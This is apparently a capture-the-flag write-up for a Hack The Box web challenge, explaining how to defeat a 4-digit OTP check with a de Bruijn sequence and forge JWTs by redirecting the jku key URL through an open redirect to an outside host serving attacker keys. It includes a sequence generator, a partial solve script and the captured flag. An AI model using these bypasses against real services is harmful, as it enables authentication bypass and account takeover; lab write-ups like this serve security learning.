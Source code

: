 ```yaml
---
ai_date: 2025-04-27 05:17:12
ai_summary: Bypassed OTP validation with de Bruijn sequence and manipulated JWT's jku field for key substitution.
ai_tags:
  - otp-bypass
  - jku-bypass
  - rsa
created: 2024-12-13T15:53
points: 900
updated: 2025-07-14T09:46
---
```


Fun OTP bypass + JKU bypass. Signing JWTs with our own private keys.
## OTP Bypass

Nice hints from the author.

```js [challenge/server/middleware/otpMiddleware.js]
// TODO: Is this secure enough?
if (!otp.includes(validOtp)) {
    reply.status(401).send({ error: 'Invalid OTP.' });
    return;
}
```

Well, how are the OTPs generated?

```js
export const generateOtp = () => {
  return Math.floor(1000 + Math.random() * 9000).toString();
};
```

They seem to be just 4 digit numbers.

Now there are different ways to make a string contain all possible 4 digit numbers.

But I'll be using [de Bruijn sequence - Wikipedia](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to generate a sequence that is not 36000 characters long, (even though it contains `0XXX` which isn't needed but whatever).

```python
def de_bruijn(k: Iterable[str] | int, n: int) -> str:
    alphabet = k
    k = len(k)
    a = [0] * k * n
    sequence = []

    def db(t, p):
        if t > n:
            if n % p == 0:
                sequence.extend(a[1: p + 1])
        else:
            a[t] = a[t - p]
            db(t + 1, p)
            for j in range(a[t - p] + 1, k):
                a[t] = j
                db(t + 1, t)
    db(1, 1)
    payload = "".join(alphabet[i] for i in sequence)
    return payload + payload[:n-1]
```

## JKU URL Bypass

Public keys are at `/.well-known/jwks.json`, and it is the `jku` field in the jwt header.

Changing it allows us to sign JWTs using our own private key, and the server will use our own public key to validate.

```js
// TODO: is this secure enough?
if (!jku.startsWith('http://127.0.0.1:1337/')) {
    throw new Error('Invalid token: jku claim does not start with http://127.0.0.1:1337/');
}
```

However the `jku` header is validated to must start with `http://127.0.0.1:1337/`.

How do we bypass this? Normal url injections like `@` would fail due to the presence of `/`.

Perhaps a redirect? Searching `redirect` gave me the answer, thank you author for all the hints.

This is the end point `http://127.0.0.1:1337/api/analytics/redirect?`

```js [challenge/server/routes/analytics.js]
fastify.get('/redirect', async (req, reply) => {
    const { url, ref } = req.query;

    if (!url || !ref) {
        return reply.status(400).send({ error: 'Missing URL or ref parameter' });
    }
    // TODO: Should we restrict the URLs we redirect users to?
    try {
        await trackClick(ref, decodeURIComponent(url));
        reply.header('Location', decodeURIComponent(url)).status(302).send();
    } catch (error) {
        console.error('[Analytics] Error during redirect:', error.message);
        reply.status(500).send({ error: 'Failed to track analytics data.' });
    }
});
```

## Solve

Combining them together we have the solve script!

Thank you author for making a solve script template!

```python [wrapper.py]
import requests
import datetime
import os
import jwt
from de_bruijn import de_bruijn

import json
from jwcrypto import jwk
from server import serve_file
from urllib.parse import urlencode

HOST = "http://94.237.48.253:46382"
FINANCIAL_EMAIL = 'financial-controller@frontier-board.htb'
COIN_SYMBOL = 'CLCR'
jku_url = f"http://127.0.0.1:1337/api/analytics/redirect?{urlencode({'ref': 'w', 'url': "https://1337.yun.ng/.well-known/jwks.json"})}"

kid = requests.get(f"{HOST}/.well-known/jwks.json").json()['keys'][0]['kid']
key = jwk.JWK.generate(kty='RSA', size=2048, alg='RS256', use='sig', kid=kid)
public_key = key.export_public()
stop = serve_file(json.dumps({'keys': [json.loads(public_key)]}).encode(), 1337, "application/json")
priv_key = key.export_to_pem(private_key=True, password=None)
otp = de_bruijn('0123456789', 4)

# ... THE ORIGINAL WRAPPER.PY...

stop()
```

```flag
HTB{rugg3d_pu11ed_c0nqu3r3d_d14m0nd_h4nd5_3dec65ba00edba8257236d8dffcf5c68}
```

Really loved the challenge!